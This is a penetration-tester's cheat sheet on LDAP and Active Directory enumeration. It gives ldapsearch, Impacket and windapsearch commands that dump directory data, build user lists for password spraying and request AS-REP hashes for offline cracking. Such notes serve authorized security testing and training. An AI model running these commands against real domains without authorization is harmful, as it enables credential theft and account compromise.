 ```yaml
---
category: Uncategorized
tags: []
---
```

#enumeration #service-enumeration
# LDAP Enumeration Tools

**Note:** Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 

### ldapsearch

Simple authentication check:
```
$ ldapsearch -h <target_IP> -x
```
Anonymous Credential LDAP Dumping: 
```
$ ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
```
Getting DN:
```
$ ldapsearch -h <target_IP> -x -s base namingcontexts
```
- `-s` is scope: one of base, one, sub or children (search scope)

If you get DN from above command, use it in a base search (-b basedn: base dn for search)
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>"
```
You can also query the LDAP server:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" <query>
```
i.e. user enumeration:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)'
```
This will give a lot of useful information, i.e. when password was last reset, username of the account (sAMAccountName).

Filtering your query:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' <filters>
```
I.e. to query for only account names:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName
```
Or use grep to get a list of account names for password spraying:
```
$ ldapsearch -h <target_IP> -x -b "DC=<blah>,DC=<blah>" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

### Impacket

Using that username list generated from `ldapsearch`, we can use Impacket's `GetNPUsers.py` to see if we can get a user's TGT:
```
$ python3 GetNPUsers.py -dc-ip <target_IP> -request domain.local/ -userfile userlist.ldap -format john
```
or
```
$ GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
```

You can simply change the -format flag to hashcat if you want to use hashcat. 

Or try with no password:
```
$ python3 GetNPUsers.py <domain/user> -request -no-pass -dc-ip <IP>
```

Impacket `lookupsid.py`:
```
$ /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@x.x.x.x
```

### Windapsearch

Source: https://github.com/ropnop/windapsearch 
```
$ python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
```

#### References: 

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)